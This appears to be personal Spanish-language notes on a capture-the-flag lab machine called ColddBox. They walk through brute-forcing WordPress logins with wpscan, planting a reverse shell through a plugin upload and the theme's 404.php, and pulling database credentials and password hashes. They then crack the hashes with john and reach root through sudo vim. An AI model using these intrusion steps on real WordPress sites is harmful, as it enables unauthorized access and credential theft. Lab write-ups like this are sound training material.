# ColddBox







Posibles users:
c0ldd, hugo, philip
- Todos existen comprobado en wp-login.php

Wordpress -> 4.1.31
`wpscan --url 10.10.188.207 -U c0ldd,hugo,philip -P /usr/share/wordlists/rockyou.txt --password-attack wp-login`
**c0ldd:9876543210**

---> Cambio IP 10.10.165.109
La pag de plugins va muy lenta y no deja instalar gestor de archivos para subir revshell, intentamos subir nuestro propio plugin para cargar la shell
1) Subimos un rev-shell.zip descargado de github https://github.com/4m3rr0r/Reverse-Shell-WordPress-Plugin.git
2) Activamos el Plugin
3) En el sidemenu vemos el plugin:



4) Escribimos la info y ponemos netcat a la escucha



**www-data**

## Escalada

## La shell es una mierda y no deja ejecutar nada para sanitizarla

---> BUSCAMOS OTRA FORMA DE SUBIR LA SHELL
He conseguido subir un archivo shell.php5 a media desde el plugin add
Accedemos a la url desde el navegador
`http://10.10.165.109/wp-content/uploads/2025/10/shell.php5`
**www-data**

----> OTRA FORMA CONSEGUIDA
En Appearance -> Editor -> 404.php (a la izq), metemos una revshell



Ahora cargamos la pag principal y al entrar en el "The ColddBox is here" aparecerá un parámetro p=1 en la URL, ponemos un nc en nuestro kali y cambiamos ese núemero por uno random y cargara el 404.php dandonos una shell



**www-data**

## Escalada

en /var/www/html/wp-config.php



c0ldd
cybersecurity
**MariaDB**





c0ldd:$P$BJs9aAEh2WaBXC2zFhhoBrDUmN1g0i1
hugo:$P$B2512D1ABvEkkcFZ5lLilbqYFT1plC/
philip:$P$BXZ9bXCbA1JQuaCqOuuIiY4vyzjK/Y.



`john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`



Como no se como hacer la escalada me paso el archivo linpeas.sh /usr/share/peass/linpeas
**--> PASAR A /etc/ PORQUE SI NO NO TIENE PERMISOS**

Era poniendo la contraseña de mysql -> `su c0ldd`
**c0ldd:cybersecuriry



`sudo vim -c ':!/bin/sh'`
**root**
